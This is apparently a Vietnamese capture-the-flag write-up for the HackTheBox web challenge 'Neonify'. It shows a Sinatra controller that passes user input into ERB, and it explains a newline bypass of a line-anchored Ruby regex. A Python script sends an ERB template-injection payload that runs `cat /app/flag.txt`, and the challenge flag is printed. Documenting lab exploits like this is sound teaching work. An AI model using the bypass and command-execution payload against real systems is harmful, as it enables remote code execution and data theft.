 # HACKTHEBOX - Web: Neonify

**CHALLENGE DESCRIPTION**

It's time for a shiny new reveal for the first-ever text neonifier. Come test out our brand new website and make any text glow like a lo-fi neon tube!

# Quick Review

ảnh

1. Web app có chức năng nhận user input rồi in trả về glowing string ánh neon
2. Challenge cho source-code


file `/app/controllers/neon.rb`:
```ruby
class NeonControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    @neon = "Glow With The Flow"
    erb :'index'
  end

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end

end
```

Nghe miêu rả thì nó rất là mùi `SSTI` rồi. First thing first bypass cái regex

**Tham khảo**: https://ruby-doc.org/core-2.7.5/doc/security_rdoc.html

Thì `=~` là `match regex operator` trong ruby. Hơn cả, trong ruby `^` và `$` không phải là kí tự biểu diễn *bắt đầu hay kết thúc chuỗi* mà là *bắt đầu hay ết thúc dòng(line)*. Vậy với regex trên để bypass ta chỉ cần `ahihi\n,/.?><';[][thoaimoai`

Tiếp, `ERB` là  `template language` trong ruby: https://puppet.com/docs/puppet/5.5/lang_template_erb.html

`ERB.new()` ta đang tạo render 1 template string, SSTI trong ERB template: https://twitter.com/harshbothra_/status/1498324305872318464

Ta tạo script python gửi payload bởi từ browser interface khó gửi kí tự `newline`(thử \n vs %0a \*ó đc)

```python
import requests

url = 'http://159.65.92.13:30620/'

r = requests.post(url, data={
    'neon': "hihi\n<%= `cat /app/flag.txt` %>"
    })

print(r.text)
```

**flag**: `HTB{r3pl4c3m3n7_s3cur1ty}`
